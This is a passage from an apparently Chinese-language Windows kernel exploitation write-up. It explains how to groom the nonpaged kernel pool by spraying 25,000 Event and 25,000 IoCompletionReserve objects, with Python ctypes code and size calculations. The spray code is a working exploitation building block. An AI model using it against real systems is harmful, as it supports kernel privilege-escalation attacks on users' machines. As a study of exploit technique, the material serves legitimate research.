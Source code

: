 结果表明，总会有剩余的一部分空间，也就是说我们不能使其产生一个特定大小的区块。后来，我发现有一种方法可以解决该问题，我们可以搜索具有目标缓冲区大小的n次幂的内核对象，并使用这些找到的对象。经过搜寻，我发现了另外两个内核对象：



```
# 1
type = "Job"
size = 0x168
 
windll.kernel32.CreateJobObjectW(None, None)
 
# 2
type = "Timer"
size = 0xc8
 
windll.kernel32.CreateWaitableTimerW(None, 0, None)
```

然而，这些大小也同样不能使用，因为它们没有满足要求。经过一段时间的测试，我意识到，可以采用这样的方式：



```
&gt;&gt;&gt; 0x460 % 0xa0
0
&gt;&gt;&gt;
```

这样一来，0xa0就可以均匀地分成几个0x460，那么我们再将Event和IoCompletionReserve对象结合起来（0x40 + 0x60 = 0xa0），就能够实现！



**喷射过程**

****

```
def we_can_spray():
    """
    Spray the Kernel Pool with IoCompletionReserve and Event Objects.
    The IoCompletionReserve object is 0x60 and Event object is 0x40 bytes in length.
    These are allocated from the Nonpaged kernel pool.
    """
    handles = []
    IO_COMPLETION_OBJECT = 1
    for i in range(0, 25000):
        handles.append(windll.kernel32.CreateEventA(0,0,0,0))
        hHandle = HANDLE(0)
        handles.append(ntdll.NtAllocateReserveObject(byref(hHandle), 0x0, IO_COMPLETION_OBJECT))
 
    # could do with some better validation
    if len(handles) &gt; 0:
        return True
    return False
```

这个函数可以喷出50000个对象，其中包括25000个Event对象和25000个IoCompletionReserve对象。在WinDBG中，看起来非常炫酷：

